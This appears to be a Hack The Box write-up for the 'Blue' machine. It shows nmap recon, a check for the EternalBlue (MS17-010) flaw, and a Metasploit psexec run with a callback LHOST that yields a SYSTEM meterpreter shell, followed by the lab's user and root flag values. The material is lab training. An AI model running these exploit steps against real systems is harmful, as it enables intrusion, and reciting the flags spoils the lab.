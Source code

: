 #HackTheBox 

## <span style="color:#92d050">About</span>

Blue, while possibly the most simple machine on Hack The Box, demonstrates the severity of the EternalBlue exploit, which has been used in multiple large-scale ransomware and crypto-mining attacks since it was leaked publicly.

-------
## <span style="color:#92d050">Recon</span> 

Nmap scan : 
```shell
nmap -A 10.10.10.40 -oN nmap_scan.txt
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 02:29 EDT
Nmap scan report for 10.10.10.40
Host is up (0.47s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   210: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-08-22T06:41:15
|_  start_date: 2023-08-22T06:37:17
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-08-22T07:41:17+01:00
|_clock-skew: mean: -10m20s, deviation: 34m35s, median: 9m36s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .                                                                                               
Nmap done: 1 IP address (1 host up) scanned in 133.51 seconds
```

we have the scan result and we will start enumeration with smb .
Operating system : Window 

----
## SMB - 139,445 

 - We can start enumeration of smb ,

checking if it is vulnerable to eternal blue or not using nmap script :
```shell
nmap -p 445 10.10.10.40 --script smb-vuln-ms17-010
```

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-22 02:36 EDT
Nmap scan report for 10.10.10.40
Host is up (0.25s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 4.25 seconds
```
and it is vulnerable to eternal blue .

using metasploit module psexec :
```
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.10.10.40
set LHOST 10.10.16.2
exploit
```

after some seconds we have a meterpreter shell .
```
meterpreter > sysinfo
Computer        : HARIS-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_GB
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

user.txt :
```
c:\Users\haris\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of c:\Users\haris\Desktop

24/12/2017  03:23    <DIR>          .
24/12/2017  03:23    <DIR>          ..
22/08/2023  07:37                34 user.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,428,362,752 bytes free

c:\Users\haris\Desktop>type user.txt
type user.txt
89f8e2fdde25c6793b519b92f193dd51
```

root.txt :
```
c:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is BE92-053B

 Directory of c:\Users\Administrator\Desktop

24/12/2017  03:22    <DIR>          .
24/12/2017  03:22    <DIR>          ..
22/08/2023  07:37                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   2,429,272,064 bytes free

c:\Users\Administrator\Desktop>type root.txt 
type root.txt 
4556c26985adb00f6e00bf58e3c0b295

```


